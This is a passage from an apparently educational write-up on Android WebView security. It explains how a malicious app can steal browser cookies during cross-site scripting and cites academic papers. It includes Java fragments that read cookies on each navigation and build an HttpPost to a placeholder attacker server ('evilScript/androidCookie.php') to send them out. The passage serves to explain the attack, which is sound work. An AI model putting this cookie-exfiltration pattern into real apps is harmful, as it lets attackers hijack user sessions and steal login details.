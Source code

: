 ![Cross-site scripting attack](../photos/cross-site-scripting-attack.png)

### Stealing cookies

A cookie known as a web cookie or http cookie is a small piece of text stored by the
user’s browser. Cookie is used to store and maintain users authentication and to
implement navigation, possibly across multiple visits. Cookie stealing is the most
common task in cross-site scripting attacks in which the session ID’s, Login
details of the user is gathered without user’s knowledge. These stolen cookies and
Url’s can be sent to any attacker’s server. [[5]](https://www.ripublication.com/irph/ijict_spl/ijictv4n11spl_10.pdf)

When the user runs the application through the WebView, Android applications can monitor the events occurred within WebView. We override the `shouldOverrideUrlLoading` hook, which is triggered by the navigation event, (when the user tries to navigate to another URL). Cookies can be gathered at every page navigation of the user using the method `getCookie()` from `CookieManager` class as shown in the code fragment below: 

```
CookieManager cookieManager = CookieManager.getInstance();
final String cookie = cookieManager.getCookie(url);
```

Through HttpPost, malicious script can be run on the user’s Android device, cookies and URL can be sent to any third party (i.e., the attacker’s server), thus avoiding the same-origin policy or cookie protection mechanism. [[6]](https://arxiv.org/ftp/arxiv/papers/1304/1304.7451.pdf)

```
HttpClient httpClient = new DefaultHttpClient();
HttpPost httpPost = new HttpPost(“http://evilScript/androidCookie.php");
```

The attacker is now able get all the cookies and will be able to launch several attacks such a Session hijacking and impersonating user using stolen cookies. The attacks described above are quite dangerous as the user sees only the trusted content and is not aware that his cookies are being stolen. [[6]](https://arxiv.org/ftp/arxiv/papers/1304/1304.7451.pdf)
